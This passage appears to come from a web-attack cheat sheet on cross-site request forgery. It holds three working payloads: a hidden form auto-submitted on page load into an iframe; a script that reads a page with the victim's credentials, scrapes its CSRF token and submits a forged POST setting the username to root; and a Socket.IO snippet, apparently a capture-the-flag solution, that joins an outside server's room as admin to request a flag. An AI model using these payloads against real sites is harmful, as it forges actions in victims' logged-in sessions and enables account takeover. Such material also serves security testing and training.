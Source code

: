 ```html

<iframe id="frame2" name="frame2" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
  <input type="text" name="username" value="z">
  <input type="checkbox" name="status" checked="">        
  <input id="token" type="hidden" name="token" value="0000" />
  <button type="submit">Submit</button>
</form>
```

### **POSTSteal CSRF token with Ajax and send a post with a form**

```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="root"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="findtoken" name="token" value=""/>
  <input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
</script>
```

### CSRF with Socket.IO

```html
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
    console.log('connected!');
    socket.emit('join', {
        room: username
    });
  socket.emit('my_room_event', {
      data: '!flag',
      room: username
  })

});
```